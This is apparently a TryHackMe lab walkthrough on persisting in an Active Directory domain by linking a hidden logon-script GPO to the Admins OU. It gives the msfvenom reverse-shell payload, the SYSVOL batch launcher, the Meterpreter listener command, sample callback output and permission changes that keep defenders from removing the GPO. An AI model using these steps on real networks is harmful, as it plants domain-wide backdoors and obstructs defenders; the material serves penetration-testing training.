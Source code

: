 # Persistence Through Group Policy Objects (GPOs)

The last persistence technique we will review is persistence through Group Policy Objects (GPOs). By now, you should be familiar with GPOs from previous enumeration, attack, and exploitation techniques. GPOs are also excellent for deploying persistence.

Group Policy Management in Active Directory provides a central mechanism to manage the local policy configuration of all domain-joined machines. This includes settings such as restricted group membership, firewall and AV configuration, and startup scripts. While this is a powerful management tool, attackers can abuse it to deploy persistence across the entire estate. Attackers can even hide GPOs to make them almost impossible to remove.

---

## Domain-Wide Persistence

Common GPO persistence techniques include:

- **Restricted Group Membership:** Grants administrative access to all hosts in the domain.
- **Logon Script Deployment:** Ensures a shell callback every time a user authenticates to a host in the domain.

There are many hooks that can be deployed via GPOs. Since we already used Restricted Group Membership in a previous room, let's focus on Logon Script Deployment. This method is especially effective when administrators are actively working on hosts. We'll create a GPO linked to the Admins OU, allowing us to get a shell on a host whenever an admin authenticates.

---

## Preparation

Before creating the GPO, we need to prepare our shell, listener, and the batch file that will execute our shell.

1. **Generate a shell executable:**

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > <username>_shell.exe
    ```

    > Replace `<username>` with your username to avoid overwriting other users' shells.

2. **Create a batch script** (`<username>_script.bat`) to copy and execute the shell:

    ```batch
    copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\<username>_shell.exe C:\tmp\<username>_shell.exe && timeout /t 20 && C:\tmp\<username>_shell.exe
    ```

    This script copies the binary from SYSVOL to the local machine, waits 20 seconds, then executes it.

3. **Copy both files to the SYSVOL directory using SCP and Administrator credentials:**

    ```bash
    $thm scp am0_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
    $thm scp am0_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
    ```

4. **Start the MSF listener:**

    ```bash
    msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST persistad; set LPORT 4445; exploit"
    ```

---

## GPO Creation

1. **Open Group Policy Management as Domain Admin:**
    - In a runas-spawned terminal, type `MMC` and press Enter.
    - Go to `File` → `Add/Remove Snap-in...`
    - Select `Group Policy Management` and click `Add`, then `OK`.

2. **Create and Link a New GPO:**
    - Right-click the Admins OU and select **Create a GPO in this domain, and Link it here**.
    - Name the GPO (e.g., `<username> - persisting GPO`).
    - Right-click your policy and select **Enforced**.

3. **Edit the GPO:**
    - Right-click your policy and select **Edit**.
    - Under **User Configuration**, expand `Policies` → `Windows Settings`.
    - Select **Scripts (Logon/Logoff)**.
    - Right-click **Logon** → **Properties**.
    - Go to the **Scripts** tab, click **Add** → **Browse**.
    - Select your batch file and click **Open** and **OK**.
    - Click **Apply** and **OK**.

Now, every time an administrator logs into any machine, you will get a callback.

---

## Testing the Persistence

- Reset the password for a Tier 1 administrator account and authenticate to a server.
- Start your MSF multi-handler.
- RDP into `THMSERVER1` or `THMSERVER2` using Tier 1 admin credentials.
- After a minute, you should get a callback:

    ```
    msf5 exploit(multi/handler) > run 
    Started reverse TCP handler on 172.31.16.251:4445 

    [*] Sending stage (176195 bytes) to 172.31.1.201 
    [*] Meterpreter session 1 opened (172.31.16.251:4445 -> 172.31.1.201:63695) at 2022-05-07 10:06:28 +0100 

    meterpreter >
    ```

> **Note:** To trigger the GPO, you must generate a Logon event. Signing out (not just disconnecting) will ensure this.

---

## Hiding in Plain Sight

To prevent the blue team from removing your persistence:

1. In MMC, select your policy and go to **Delegation**.
2. Remove permissions for all groups except **Authenticated Users**:
    - Right-click **ENTERPRISE DOMAIN CONTROLLERS** and select **Edit settings, delete, modify security**.
    - Remove all other groups except **Authenticated Users**.
3. Click **Advanced** and remove **Created Owner** from permissions.

By default, **Authenticated Users** must have read access for the policy to apply. If you want to further restrict access:

- Add **Domain Computers** with **Read** permissions.
- Remove **Authenticated Users**.

> **Warning:** Removing Authenticated Users may prevent your shell from executing. Test before making this change.

After these steps, even administrators cannot easily remove the GPO without impersonating a Domain Controller machine account. The GPO will persist until a network reset is performed.

---

You can verify the GPO is still applied by RDPing into one of the THMSERVERS.
